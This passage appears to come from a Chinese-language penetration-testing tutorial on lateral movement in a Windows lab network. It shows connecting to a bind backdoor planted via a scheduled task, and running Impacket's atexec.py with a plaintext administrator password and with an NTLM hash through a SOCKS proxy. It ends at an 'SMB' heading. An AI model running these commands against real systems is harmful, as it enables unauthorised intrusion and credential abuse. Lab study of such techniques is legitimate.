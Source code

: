   
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpmmO0638ibpHd5HIxhCavU7FyTDntZCUn9eGVwo1qNrbpttiacD7QU2U2J7QlqXfabjTGwxY17VpnA/640?wx_fmt=png&from=appmsg "")  
  
  
成功运行计划任务，然后我们去主动连接即可，因为是正向后门。  
  
  
connect 192.168.3.32 3232  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpmmO0638ibpHd5HIxhCavU7CsJ5n9C2MLL7s3DpFrjPdDMPsKq2TKKjr3hmmLGsyFOQ8PJZ12u85w/640?wx_fmt=png&from=appmsg "")  
  
  
总算成功！！！  
  
  
但是以上操作不仅麻烦，还需要有明文密码才能进行，接下来的工具可以解决这些问题。  
  
##### impact套件  
  
  
https://github.com/fortra/impacket  
  
  
都是python文件，把python文件传上去进行是不显示的，单单传上去就是一个问题，对方有没有python环境另说。  
  
  
该工具是一个半交互的横向移动工具，适用于Socks代理下;本机运行，穿透目标。  
  
  
在跳板机上建立socks节点，然后proxifier即可。  
  
  
python atexec.py ./administrator:admin!@#45@192.168.3.32 "ver"  
  
  
接下来我们需要考虑的就是上线了。  
  
  
可以考虑下载后门文件并执行或者powershell上线  
  
  
先说第一种：目标是3网段的，只能跟3网段的通讯，但是我们只有跳板机可以与之通讯，要在跳板机开启下载的环境才行，不一定可行，流量也太大了，不推荐。  
  
  
再说第二种：powershell无文件落地上线。  
  
  
同时这个工具包也支持hash  
  
  
python atexec.py -hashes :ccef208c6485269c20db2cad21734fe7 ./administrator@192.168.3.21 "whoami"  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpmmO0638ibpHd5HIxhCavU7OLInfgoO3UWyNibFgIo2icXg0TwyCnzEII2PJBMSbbcZ3deuRD3mDfTg/640?wx_fmt=png&from=appmsg "")  
  
  
然后配置一下proxifier即可  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpmmO0638ibpHd5HIxhCavU7p6TrHT92yKLCQBuSev4CObNQ98I3wcRibqUfyxOBrXDIoW4B3SicibOJA/640?wx_fmt=png&from=appmsg "")  
  
  
成功！！！  
  
#### SMB  
  
  